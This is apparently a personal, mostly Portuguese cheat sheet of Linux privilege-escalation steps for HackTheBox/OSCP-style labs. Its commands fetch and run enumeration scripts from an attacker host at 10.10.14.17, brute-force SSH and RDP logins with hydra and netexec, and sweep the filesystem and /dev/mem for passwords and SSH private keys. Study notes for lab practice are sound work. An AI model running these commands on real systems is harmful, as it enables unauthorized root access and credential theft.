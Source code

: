 Linux PrivEsc
========================

- [ ] [**Sudo access**](#sudo-access)
- [ ] [**SUID e SGID**](#suid-e-sgid)
- [ ] [**Exploração de Kernel**](#kernel-exploitation)
- [ ] [**Checar o histórico de comandos**](#check-history)
- [ ] [**Navegar nos diretórios**](#navegar-nos-diretorios)
- [ ] [**Enumerar usuários**](#enumerar-usuarios)
- [ ] [**Enumeração automática**](#automatizado)
- [ ] [**Serviços locais**](#local-services)
- [ ] [**Informações de rede**](#network-information)
- [ ] [**Tarefas agendadas**](#crontab)
- [ ] [**Enumeração de processos**](#enumeracao-de-processos)
- [ ] [**Reutilização de senha**](#reutilizacao-de-senha)
- [ ] [**Senhas em texto claro**](#senhas-em-texto-claro)


<details markdown="1"><summary markdown="1">
## Sudo access
</summary>

    sudo -i
    sudo su
    sudo -
    
    # Este temos de verificar os binários que podemos executar com permissão de root
    sudo -l

### Exemplos práticos

Vide máquina [Broker](../../../CTFs_Labs/HackTheBox/Broker#privesc) : sudo access com o binário nginx
Vide máquina [Blocky](../../../CTFs_Labs/HackTheBox/Blocky#privilege-escalation)

</details>

<details markdown="1"><summary markdown="1">
## SUID e SGID
</summary>
Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null
    
Nese ponto podemos abrangeer a análise de binários aqui quando encontramos algo que seja possível ser executado por meio do usuário root. Para isso devemos considerar esta [nota]()

</details>

<details markdown="1"><summary markdown="1">
## Kernel exploitation
</summary>
<https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation>

    wget http://10.10.14.17/4-privilege_escalation/les.sh
    chmod +x les.sh
    ./les.sh

    cat /etc/issue
    
    cat /etc/*-release
    
    uname -a
  
    cat /proc/version

Algo importante aqui na hora de escalar privilégios no sistema:

**Considerar a compilação para sistemas 32 bits**

https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/
</details>

<details markdown="1"><summary markdown="1">
## CheckHistory
</summary>
    history
</details>
<details markdown="1"><summary markdown="1">
## Navegar nos diretórios
</summary>
Aqui alguns detalhes na hora de navegar nos diretórios. Temos que verificar se existem outras aplicações rodando quando temos um apache na máquina alvo, assim como credenciais em seus arquivos de configuração. Vide que é possível obter i8sso por meio dos seguintes arquivos:

    cat /opt/tomcat/conf/tomcat-users.xml
    cat /etc/apache2/sites-enabled/*.conf

    ls -al /usr/local/
    ls -al /usr/local/src
    ls -al /usr/local/bin
    ls -al /opt/
    ls -R -al /home #Fazer recursivamente neste
    ls -al /var/
    ls -al /usr/src/


OS COMANDOS AQUI SÃO EXECUTADOS TODOS NA MÁQUINA VÍTIMA
</details>
<details markdown="1"><summary markdown="1">
## Enumerar usuários
</summary>

    cat /etc/passwd
    #non-system users
    awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd

</details>

<details markdown="1"><summary markdown="1">
## Atomatizado
</summary>
### Linenum

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

    wget http://10.10.14.17/4-privilege_escalation/LinEnum.sh -O le.sh
    chmod +x le.sh
    ./le.sh

ou 

https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh

### bangenum

è um resumo do LinEnum.sh

    wget http://10.10.14.17/4-privilege_escalation/bangenum.sh
    sed -i -e 's/\r$//' bangenum.sh
    chmod +x bangenum.sh
    ./bangenum.sh

</details>

<details markdown="1"><summary markdown="1">
## Local services
</summary>

    netstat -natl

ou

    netstat -nao
</details>

<details markdown="1"><summary markdown="1">
### Network information
</summary>

    ip a
    ifconfig
    route
    routel
    ip route
    
    netstat -napl
    netstat -naptl
    
    ss -anp

</details>

<details markdown="1"><summary markdown="1">
## Crontab
</summary>

    crontab -l
    cat /etc/crontab
    ls -lah /etc/cron* 

    grep "CRON" /var/log/cron.log

</details>

<details markdown="1"><summary markdown="1">
## Enumeração de processos
</summary>

< https://github.com/DominicBreuker/pspy>

    wget http://10.10.14.17/4-privilege_escalation/pspy32
    #ou
    wget http://10.10.14.17/4-privilege_escalation/pspy64
    chmod +x pspy64
    ./pspy64
    
</details>

<details markdown="1"><summary markdown="1">
## Reutilização de senha
</summary>
Tentar usuário e senha sendo o mesmo com hydra, por exemplo

    hydra -L user.txt -P user.txt 10.10.10.10 ssh
    hydra -L users.txt -P users.txt rdp://10.10.10.10

Tentar senha de um usuário para outro também e rockyou

    netexec ssh <hostname> -u usuarios.txt -p senhas.txt --continue

ou

    netexec ssh <hostname> -u usuarios.txt -p senhas.txt --continue --no-bruteforce

</details>

<details markdown="1"><summary markdown="1">
## Senhas em texto claro
</summary>
Procurar a string PASSWORD ou password dentro de arquivos

    grep -rnw / -e 'password\|pass\|creds\|senha\|credentials' 2>/dev/null -i

    find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

### SensitiveFileContent

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
    
    
Nesse caso e interessante considerar que o diretorio que busco as informacoes e um diretorio de configuracoes de aplicacoes '/etc':

    grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null

In memory passwords
    
    strings /dev/mem -n10 | grep -i PASS


Generally, source code with hard coded credentials. Searcvh for php files, for examplo

### Credentials from local databases

Dump de credenciais do banco de dados

</details>

## SSH keys

    find / -name authorized_keys 2> /dev/null

    find / -name id_rsa 2> /dev/null

## Binary exploitation

User Installed Software
Has the user installed some third party software that might be vulnerable? Check it out. If you find anything google it for exploits.

Common locations for user installed software

    /usr/local/
    /usr/local/src
    /usr/local/bin
    /opt/
    /home
    /var/
    /usr/src/

Debian

    dpkg -l

CentOS, OpenSuse, Fedora, RHEL

    rpm -qa (CentOS / openSUSE )

OpenBSD, FreeBSD

    pkg_info


## Enumerate writable/readable

    find / -writable -type d 2>/dev/null


### Enumerate unmounted disks

    cat /etc/fstab 
    mount
    /bin/lsblk

## PATH Hijack
 
 Vide máquina [Pandora](Pandora.md#PrivEsc)